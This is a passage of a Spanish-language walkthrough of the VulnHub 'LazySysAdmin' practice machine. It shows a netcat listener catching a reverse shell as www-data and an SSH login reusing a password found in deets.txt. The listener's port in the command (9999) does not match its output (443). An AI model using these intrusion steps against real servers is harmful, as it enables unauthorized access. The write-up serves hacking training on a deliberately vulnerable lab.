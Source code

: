 Tenemos ejecución de código.

![rce](/assets/img/commons/vulnhub/lazysysadmin/rce.png){: .normal }

Lanzamos una reverse shell y ganamos acceso al servidor.

![access](/assets/img/commons/vulnhub/lazysysadmin/access.png){: .normal }

```bash
❯ sudo rlwrap nc -nlvp 9999
[sudo] password for lvs3c:
listening on [any] 443 ...

connect to [10.11.12.10] from (UNKNOWN) [10.11.12.16] 53482
bash: cannot set terminal process group (1182): Inappropriate ioctl for device
bash: no job control in this shell
www-data@LazySysAdmin:/var/www/html/wordpress$ whoami
whoami
www-data
```

Con este acceso, podemos listar y explotar el sistema operativo de varias formas, pero hay una forma más sencilla.

## Escalación de privilegios

---

Usando la password del archivo `deets.txt`, intentamos loguearnos con el usuario `togie`.

```bash
❯ ssh togie@10.11.12.16
##################################################################################################
#                                          Welcome to Web_TR1                                    #
#                             All connections are monitored and recorded                         #
#                    Disconnect IMMEDIATELY if you are not an authorized user!                   #
##################################################################################################

togie@10.11.12.16's password:
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Thu Feb 13 21:06:06 AEST 2025

  System load:  0.0               Processes:           196
  Usage of /:   56.8% of 2.89GB   Users logged in:     0
  Memory usage: 25%               IP address for eth0: 10.11.12.16
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

133 packages can be updated.
0 updates are security updates.

togie@LazySysAdmin:~$
```
